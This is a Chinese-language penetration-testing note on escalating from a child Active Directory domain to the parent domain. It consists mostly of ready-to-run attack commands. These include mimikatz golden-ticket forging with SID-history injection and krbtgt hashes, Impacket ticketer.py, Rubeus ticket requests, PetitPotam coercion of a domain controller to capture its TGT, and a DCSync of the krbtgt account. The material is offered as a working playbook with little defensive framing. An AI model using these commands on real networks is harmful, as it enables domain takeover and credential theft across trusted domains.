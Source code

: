 
## 跨域

我们拿到了子域的域管权限。想要进一步拿下父域。但子域的域管并不是父域的域管。怎么办呢？

### 跨域金票

在子域控上导出krbtgt的hash，制作金票。也可以用信任密钥加密。其实这俩一样，只不过换了个hash加密而已。

```c#
lsadump::lsa /inject /name:krbtgt

kerberos::golden /domain:b.adc.com /user:TB /id:1104 /groups:513 /sid:S-1-5-21-380941772-2247100965-3625425370 /sids:S-1-5-21-3427068280-546657318-2538748504-519,S-1-5-9 /krbtgt:8bd3cbe5d54eb2d1c9274d940c3d165a /ptt 

kerberos::golden /user:administrator /id:500 /sid:S-1-5-21-3472340072-1697025292-3535703670 /sids:S-1-5-21-3427068280-546657318-2538748504-519,S-1-5-9,S-1-5-21-380941772-2247100965-3625425370-512,S-1-5-15 /krbtgt:922d9ee0c87f0aed5c72222ee1d47d0a /ptt /domain:a.adc.com

python3 ticketer.py -nthash 922d9ee0c87f0aed5c72222ee1d47d0a -user-id 1104 -groups 513 -domain a.adc.com -domain-sid S-1-5-21-3472340072-1697025292-3535703670 -extra-sid S-1-5-21-3427068280-546657318-2538748504-519,S-1-5-9 "TA"

Rubeus.exe asktgt /user:TB /domain:b.adc.com /aes256:e725be784d9e460e6dfc89074c5a246b8de5e54b11ab0fb2f3e9918d815383a6 /opsec /nowrap
Rubeus.exe asktgs /service:krbtgt/adc.com /domain:b.adc.com /dc:iis02.b.adc.com /ticket:
Rubeus.exe asktgs /service:cifs/DC01.adc.com /domain:adc.com /dc:DC01.adc.com /nowrap /ticket:
```

![image.png](https://s2.loli.net/2022/04/20/y3PqLmZXr4IeFwV.png)


### 非约束委派

学非约束委派时就提到过。域控默认都是非约束委派的机器，通过RPC强制父域控返回身份认证，在子域控上哪到父域机器账户的TGT。

这里需要注意的是，这种手法同样适用于林信任，但在外部信任不可用。如果开启了sid筛选，也抓不到TGT

```lsadump::dcsync
python3 PetitPotam.py  dc04.cdc.com 10.10.10.10 -u administrator -p sss@123

Rubeus.exe monitor /interval:1 /nowrap
Rubeus.exe  ptt /ticket:....................

lsadump::dcsync /user:adc\krbtgt /domain:adc.com
```

![image.png](https://s2.loli.net/2022/04/20/lYVTNSFQrqXJhOk.png)

### 信任账户攻击

很好理解的攻击方式。一张图就可以解决。
